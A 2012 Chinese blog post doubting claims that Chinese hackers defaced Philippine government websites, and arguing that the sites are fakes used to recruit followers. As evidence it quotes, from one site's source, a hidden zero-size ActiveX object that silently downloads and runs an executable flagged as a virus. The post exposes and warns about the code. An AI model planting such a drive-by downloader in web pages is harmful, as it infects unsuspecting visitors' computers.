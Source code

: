 author: 阿安
comments: true
date: 2012-05-10 15:40:05+00:00
layout: post
slug: cnhacker-the-philippines
title: 菲律宾国防部官网被红客攻陷了？大误！！！
wordpress_id: 383
categories:
- 未分类
tags:
- 红客
- 菲律宾国防部
---

今天听说菲律宾官方网站被黑，于是进去看了看。
发现 http://www.pei.net.ph/ 和 http://lam IT an.gov.ph/ 确实被黑了，显示了中国国旗。
　　
疑点1.
　　我们进行了GOOGLE搜索和百度搜索，发现没有任何搜索引擎以前的收录记录，试想一个国家的网站，访问量应该很大，而且从这个网站运作，应该就被搜索引擎收录过，我们发现了上次快照更新时间已经是昨天了。那么，一个国家的机要网站，在发现自己被黑后一天都没人处理，难道他们国家没有技术人员了吗？<!-- more -->
　　
疑点2.
　　我们通过查询了源代码和主机地址，发现网站http://lamitan.gov.ph/服务器放置地在美国。
　　然后该网站还被挂了马。试想自己黑了给那么多华人看，攻击的人需要挂马害自己人吗，显示这个事情有猫腻。我们查看了源文件，发现了这样一段代码。

    
    
    <object classid="CLSID:c1b7e532-3ecb-4e9e-bb3a-2951ffe67c61" width="0" codebase="*ActiveX.cab#Version=1,0,0,1" id="*ActiveX1" height="0">
     
    <param name="propProgressbackground" value="#bccee8">
     
    <param name="propTextbackground" value="#f7f8fc">
     
    <param name="propBarColor" value="#df0203">
     
    <param name="propTextColor" value="#000000">
     
    <param name="propWidth" value="0">
     
    <param name="propHeight" value="0">
     
    <param name="propDownloadUrl" value="http://www.sulu.gov.ph/admin/cal/135pk.exe">
     
    <param name="propPostdownloadAction" value="run">
     
    <param name="propInstallCompleteUrl" value="">
     
    <param name="propbrowserRedirectUrl" value="">
     
    <param name="propVerbose" value="0">
     
    <param name="propInterrupt" value="0">
     
    </object>
    



疑点3.
　　下载这个135pk.exe文件 上传到了查毒网，全部显示为病毒。而且如果是菲律宾官方挂的，也不用自动隐藏下载打开吧，文件有350KB 也不像是什么插件之类的。攻击的网站也不是菲律宾政府官网，而真正的官网应该是： www.gov.ph
　　
　　然后我们在网上查到了.ph的菲律宾域名80元即可注册购买，因此。该事件在没有得到论证以前请没有经验的用户不要去打开。被钓鱼就麻烦了!
　　
　　以上三个疑点说明 有人故意做了假网站，跟随菲律宾能源网站被黑一事在自己谋利。谋什么利呢 ，我们进群发现群管理不断发内容招人。招学员之类的。
        这个.....不用继续往下说了吧?

-----------------------
本文转自银河系
